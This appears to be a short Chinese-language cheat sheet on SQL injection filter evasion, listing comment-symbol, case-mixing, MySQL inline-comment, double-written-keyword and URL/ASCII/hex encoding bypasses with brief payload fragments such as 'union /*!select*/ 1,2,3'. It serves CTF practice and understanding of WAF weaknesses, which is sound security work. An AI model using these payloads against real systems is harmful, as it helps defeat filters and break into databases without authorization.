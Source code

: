 ## 1.注释符号绕过

```bash
--  注释内容
# 注释内容
/*注释内容*/
;
1234
```

## 2.大小写绕过

常用于 waf的正则对大小写不敏感的情况，一般都是题目自己故意这样设计。

```bash
UniOn 
SeleCt
12
```

## 3.内联注释绕过

内联注释就是把一些特有的仅在MYSQL上的语句放在 /*!..*/ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。

```bash
 select * from cms_users where userid=1 union /*!select*/ 1,2,3;
1
```

## 4.双写绕过

在某一些简单的waf中，将关键字select等只使用replace()函数置换为空，这时候可以使用双写关键字绕过。例如`select`变成`seleselectct`，在经过waf的处理之后又变成select，达到绕过的要求。

## 5.编码绕过

如URLEncode编码，ASCII,HEX,unicode编码绕过：
**对关键字进行两次url全编码：**

```bash
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2 
12
```

**ascii编码绕过**

```bash
Test 等价于CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)
1
```

**16进制绕过：**

```bash
select * from users where username = test1;
select * from users where username = 0x7465737431;
12
```
